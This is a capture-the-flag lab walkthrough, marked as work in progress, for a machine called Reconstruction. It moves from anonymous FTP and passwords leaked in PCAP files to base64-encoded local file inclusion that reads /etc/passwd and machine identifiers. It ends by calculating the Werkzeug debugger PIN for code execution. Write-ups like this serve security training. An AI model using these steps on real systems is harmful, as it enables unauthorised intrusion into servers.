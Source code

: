 # Reconstruction (WIP)

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 00:04 +08
Nmap scan report for 192.168.183.103
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8080/tcp open  http-proxy
```

### Anonymous FTP --> Wireshark Password

FTP allows anonymous logins:

```
$ ftp 192.168.183.103 
Connected to 192.168.183.103.
220 (vsFTPd 3.0.3)
Name (192.168.183.103:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49037|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Apr 29  2020 WebSOC
-rw-r--r--    1 0        0             137 Apr 29  2020 note.txt
ftp> cd WebSOC
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||32250|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         3086771 Apr 29  2020 1.05.2020.pcap
-rw-r--r--    1 0        0          869677 Apr 29  2020 29.04.2020.pcap
-rw-r--r--    1 0        0        14579662 Apr 29  2020 30.04.2020.pcap
```

`note.txt` mentions that there are passwords within the files:

```
I've just setup the new WebSOC! This should hopefully help us catch these filthy hackers!

TODO: remove leftover passwords from testing
```

Most of the PCAP files contained traffic generated from brute forcing the site, so it was pretty tedious looking through all of them. The `30.04.2020` PCAP file contained a lot of brute force attempts, while `1.05.2020` contained very few:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

And within that PCAP file, we can find a request that has a password that seems to work:

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

### Web Enum --> LFI

Port 8000 hosted the same Flask application:

<figure><img src="../../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

With the password we found earlier, we can login:

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Attempting to view the 'Hello World' blog entry results in an error from Flask:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

There's a feature within this kind of web application that allows us to access the console to run Python code, but this one is protected by the PIN:

<figure><img src="../../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

I ran a directory scan using `wfuzz`:

{% code overflow="wrap" %}
```
$ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc=308,404 -t 100 http://192.168.183.103:8080/FUZZ/
000000182:   302        3 L      24 W       253 Ch      "data"                      
000001225:   200        66 L     126 W      2011 Ch     "logout"                    
000001387:   302        3 L      24 W       257 Ch      "create"
```
{% endcode %}

There were just these 3 directories. `create` is pretty obvious in what it does, but `data` was not. Visiting it just shows this:

<figure><img src="../../../.gitbook/assets/image (390).png" alt=""><figcaption></figcaption></figure>

Testing any directories with this shows the same page, but with a new header:

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

The `X-Error` showing `Incorrect Padding` is present, and when googled the first thing that comes up is `base64`:

<figure><img src="../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

If we use the `base64` encoded string of `/etc/passwd`, we get another unique error:

<figure><img src="../../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

Now there's an error saying there's no file or directory triggered by the newline character. This means we have LFI on the server if we use `echo -n`!

### Werkzeug PIN Calculation --> RCE

Since we have LFI on the Werkzeug server, we can actually calculate the PIN required.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}

Using our LFI, we can get the parameters required. First, we need to get the ARP Address of the machine. First, we can find the ARP cache to identify the interface used:

```
$ echo -n '/proc/net/arp' | base64
L3Byb2MvbmV0L2FycA==
```

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

`ens160` is the interface name needed to find the ARP address:

```
$ echo -n '/sys/class/net/ens160/address' | base64
L3N5cy9jbGFzcy9uZXQvZW5zMTYwL2FkZHJlc3M=
```

<figure><img src="../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

Convert this to decimal using `python`:

```
$ python3       
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x005056ba311e)
345052426526
```

Next, we need to get the machine ID.

```
$ echo -n '/etc/machine-id' | base64              
L2V0Yy9tYWNoaW5lLWlk
```

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

Then, we can use this script to get the PIN out:

{% embed url="https://gist.github.com/InfoSecJack/70033ecb7dde4195661a1f6ed7990d42" %}

Note that we need to append `blog.service` behind the machineid based on Hacktricks, as well as my own trial and error.

```
$ python3 pin.py --uuid 345052426526 --machineid 00566233196142e9961b4ea12a2bdb29blog.service
[!] App.py base path not provided, trying for most versions of python
2.7: 105-680-026
3.0: 203-540-957
3.1: 144-819-940
3.2: 179-971-507
3.3: 136-857-667
3.4: 332-587-539
3.5: 282-864-373
3.6: 498-493-994
3.7: 508-377-547
3.8: 141-442-795
```

